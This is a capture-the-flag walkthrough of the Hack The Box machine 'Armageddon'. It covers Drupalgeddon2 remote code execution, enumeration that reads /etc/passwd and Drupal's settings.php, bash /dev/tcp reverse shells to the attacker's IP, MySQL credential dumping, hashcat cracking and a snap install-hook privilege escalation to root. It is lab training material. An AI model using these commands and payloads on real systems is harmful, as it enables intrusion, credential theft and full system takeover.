



## Reconnaissance

### nmap 


### Web Service 


> Robots.txt


### Burp Intercept 

> Check the request in burp
> There is a software disclosed in response - Drupal 
> And the roughly version is 7


### Exploit Code 

- [(ExploitDB)Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution](https://www.exploit-db.com/exploits/44449)


- [(GITHUB)Drupal 7 (CVE-2018-7600 / SA-CORE-2018-002)](https://github.com/pimps/CVE-2018-7600


## Exploit 

> With the exploit code provided above, I completed the subsequent exploitation and enumeration. Throughout these tests, I attempted numerous methods to establish a reverse shell, but the majority of them were unsuccessful.
> I decided to exploit by the code from GITHUB

> Enumeration using the exploit code

1. Directly executing the code (the default command is 'id' )
> Current user is apache
```
python drupa7-CVE-2018-7600.py http://10.129.48.89
```


2. Check current directory
```
python drupa7-CVE-2018-7600.py -c 'pwd' http://10.129.48.89
```
> Currently, I located in /var/www/html


3. Check other user
```
python drupa7-CVE-2018-7600.py -c 'cat /etc/passwd' http://10.129.48.89
```


4. Check the file in current directory

```
python drupa7-CVE-2018-7600.py -c 'ls -al' http://10.129.48.89
```


5. Check the content of authorize.php
>  I can't find anything interesting from this file 
```
python drupa7-CVE-2018-7600.py -c 'cat authorize.php' http://10.129.48.89
```


> There are some include file.
> I also check them one by one.
> but nothing found.


6. Following the above investigation, I enumerate the file in /includes directory

```
python drupa7-CVE-2018-7600.py -c 'ls -al includes' http://10.129.48.89
```

7. Check web.config

```
python drupa7-CVE-2018-7600.py -c 'cat web.config' http://10.129.48.89 
```


8.  Check .htaccess 
```
python drupa7-CVE-2018-7600.py -c 'cat .htaccess' http://10.129.48.89 
```


9. Using ping command to confirm the target server can send request back to my host 

```
python drupa7-CVE-2018-7600.py -c 'ping 10.10.17.145' http://10.129.48.89 
```


10. With a bunch of testing, I finally find the following directory and files.
```
python drupa7-CVE-2018-7600.py -c 'ls -al sites' http://10.129.48.89 
python drupa7-CVE-2018-7600.py -c 'ls -al sites/default' http://10.129.48.89 
python drupa7-CVE-2018-7600.py -c 'ls -al sites/default/settings.php' http://10.129.48.89 
```






> There is a mysql credential in here 

```
database: drupal
username: drupaluser
password: CQHEy@9M*m23gBVj
```


> With this credential, I thing it's possible to login to the mysql DB running on localhost on target server
> But I didn't get reverse shell yet, and I tried the following command to check the DB first, it works 
> Now, I'm sure the credential is useful one.

```
python drupa7-CVE-2018-7600.py -c 'mysql -u drupaluser -pCQHEy@9M*m23gBVj -D drupal -e "show tables;"' http://10.129.48.89 
```


> Reverse shell failed test

```
python drupa7-CVE-2018-7600.py -c "bash -c 'bash -i >& /dev/tcp/10.10.17.145/1338 0>&1'"  http://10.129.48.89
```


```
python drupa7-CVE-2018-7600.py -c "bash -i >& /dev/tcp/10.10.17.145/1338 0>&1" http://10.129.48.89
```


> By researching the different reverse shell payload, and the root cause of can't establish the connection.
 > I suddenly had an idea that it might be caused by the firewall or WAF only allowing ports 80 and 443 to be open externally.
 > So, I change the reverse shell as follow: 
 
```
python drupa7-CVE-2018-7600.py -c 'bash -i >& /dev/tcp/10.10.17.145/443 0>&1' http://10.129.48.89 
```


> Got reverse shell by the following command 


## Privilege Escalation  (to low level user)

> Confirm current user 


> Using the DB credential to find other clue to get higher user permission

```
mysql --host localhost -D drupal -u drupaluser -p CQHEy@9M*m23gBVj
show tables
```


```
select * from users;
select * from actions;
select * from cache;
```


> In users table


> Credential for brucetherealadmin 

```
admin@armageddon.eu

$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt
```


> Hashcat to identified the password

```
hashcat --help | grep "Drupal"
```


> Hashcat to crack it 

```
hashcat -m 7900 admin.hash /usr/share/wordlists/rockyou.txt
```


> Get  plaintext password.
```
brucetherealadmin / booboo
```

> Using SSH to login 

```
ssh brucetherealadmin@10.129.48.89
```


> Get user flag


## Privilege Escalation  (to root)

> Check sudo permission 

```
sudo -l
```


> Research how to PE by snap command 

- [(GTFObins)snap](https://gtfobins.github.io/gtfobins/snap/)


> Follow this instruction in my kali, then generating a snap file by fpm

```
COMMAND2024='cat /root/root.txt'
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
```


> Install fpm first 

```
gem install fpm
```


```
fpm -n xxxx -s dir -t snap -a all meta
```


> Upload snap file to target, and I can read root flag

```
curl http://10.10.17.145/xxxx_1.0_all.snap -o xxxx_1.0_all.snap
sudo /usr/bin/snap install xxxx_1.0_all.snap --dangerous --devmode
```


> Get root flag 


### How to get root shell 

> The following step was instructing by ippsec's video

- Move bash file to tmp or current directory 
```
cp /usr/bin/bash ~
```


- The final command he used 
```
COMMAND="chown root:root /home/brucetherealadmin/bash;chmod 4755 /home/brucetherealadmin/bash"
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n xxxx -s dir -t snap -a all meta
```


```
./bash -p
```


#### Explanation 

> Ippsec has tried the following: 

1. directly executing bash, but it didnt work well, the command didn't reply.
```
COMMAND="bash"
```

2. Change the execute permission to /usr/bin/bash. it still not work, the file permission didn't change.
```
COMMAND="chmod 4755 /usr/bin/bash"
```
> Then he tried to figure out the reason why this not work
> with the snap command timeout, it shows the following error message 

```
chmod: cannot access '/usr/bin/bash': No such file or directory
```


> And he tried above works payload, 
> Move the bash from /usr/bin/bash to home directory,
> Then change the permission  by snap command again.
> It works.


> With his explaining, I think the bash in /usr/bin can't not be modified
> Since snap is a tool similar to apt
> and the snap tool will have dependencies contain in package. (as he said, it kind of python virtual machine)



>  the snap package a bunch of directories, and /usr/bin is one of the directory it packages.
>  so that might be the reason why snap can't modify or access the file in /usr/bin
> Besides that, it also introduce the 2 option which is important on privilege escalation 

```
--dangerous: Install  the  given  snap file even if there are no pre-acknowledged signatures for it, meaning it was not verified and could be dangerous (--devmode implies this) 
--devmodes: Put snap in development mode and disable security confinement
```


## Reference 

### WriteUp

- [[HTB] Armageddon靶機 Write-Up](https://yu-shiuan2017.medium.com/htb-armageddon%E9%9D%B6%E6%A9%9F-write-up-e5cf39519987)
- [Hack The Box Armageddon Writeup](https://medium.com/@joemcfarland/hack-the-box-armageddon-writeup-4f94be2b3485)
- [HackTheBox - Armageddon](https://www.youtube.com/watch?v=8ikdbyOQsLg)

### Exploit Code Drupal 7

- [(ExploitDB)Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution](https://www.exploit-db.com/exploits/44449)
- [(GITHUB)Drupal 7 (CVE-2018-7600 / SA-CORE-2018-002)](https://github.com/pimps/CVE-2018-7600)
### Reverse Shell Payload 

- [Reverse Shell Generator](https://www.revshells.com/)

### Privilege Escalation

- [(GTFObins)snap](https://gtfobins.github.io/gtfobins/snap/)


- [(GITHUB)fpm](https://github.com/jordansissel/fpm)
- [fpm - packaging made simple](https://fpm.readthedocs.io/en/latest/installation.html)
- [(GUTHUB)dirty_sock](https://github.com/initstring/dirty_sock/tree/master)
- [Linux Privilege Escalation via snapd using dirty_sock exploit and demonstration of CVE-2019-7304](http://www.hackersnotes.com/blog/pentest/linux-privilege-escalation-via-snapd-using-dirty_sock-exploit-and-demonstration-of-cve-2019-7304/)
- [Linux File Permissions: Understanding setuid, setgid, and the Sticky Bit](https://www.cbtnuggets.com/blog/technology/system-admin/linux-file-permissions-understanding-setuid-setgid-and-the-sticky-bit)
### Linux Command 

- [Downloading files with curl](http://www.compciv.org/recipes/cli/downloading-with-curl/)
#### snap 

- [snap vs apt](https://phoenixnap.com/kb/snap-vs-apt)
- [snap](https://manpages.org/snap)
- [Demystifying Snap Confinement](https://snapcraft.io/blog/demystifying-snap-confinement)

###### tags: `HackTheBox`